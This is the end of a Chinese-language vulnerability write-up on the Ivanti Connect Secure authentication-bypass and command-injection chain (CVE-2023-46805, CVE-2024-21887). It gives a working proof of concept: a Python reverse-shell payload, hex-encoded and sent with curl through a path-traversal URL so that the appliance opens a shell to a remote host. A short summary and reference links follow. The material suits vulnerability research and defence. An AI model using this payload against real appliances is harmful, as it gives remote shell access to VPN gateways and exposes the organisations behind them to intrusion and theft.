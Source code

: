   
POC  
```

```  
```
payload=$(echo ";python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"host\",48989));subprocess.call([\"/bin/sh\",\"-i\"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())';" | xxd -p)

curl -ik --path-as-is https://host/api/v1/totp/user-backup-code/../../license/keys-status/$payload
```  
###   
### 小结  
  
这个漏洞利用链利用了二进制文件中路径判断问题，使用目录穿越绕过权限验证访问后端接口，同时通过Popen的命令注入注入恶意命令并执行，构成了完整的利用链，由于没办法获取到补丁，所以暂时没办法分析ivanti怎么修复的该漏洞。  
  
实际利用的时候发现建立的shell在一定时间后会被ivanti connect secure内部的完整性检查工具杀死，粗略的看了一下逻辑，有时间整理一篇文章。  
  
利用截图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/M3XUNBmia1tPKlYWmvWtibACjsM3L50g8ueuib0YOfIzNgh8j3KIRl2eicZ47WQ3T79BhJplDxor61CSrbFuT7Lzsw/640?wx_fmt=png&from=appmsg "")  
  
**参考链接**  
> https://labs.watchtowr.com/welcome-to-2024-the-sslvpn-chaos-continues-ivanti-cve-2023-46805-cve-2024-21887/  
>   
> https://forums.ivanti.com/s/article/KB-CVE-2023-46805-Authentication-Bypass-CVE-2024-21887-Command-Injection-for-Ivanti-Connect-Secure-and-Ivanti-Policy-Secure-Gateways?language=en_US  
>   
> https://attackerkb.com/topics/AdUh6by52K/cve-2023-46805/rapid7-analysis  
>   
> https://www.assetnote.io/resources/research/high-signal-detection-and-exploitation-of-ivantis-pulse-connect-secure-auth-bypass-rce  
  
  
PoC  
> https://github.com/duy-31/CVE-2023-46805_CVE-2024-21887  
  
  

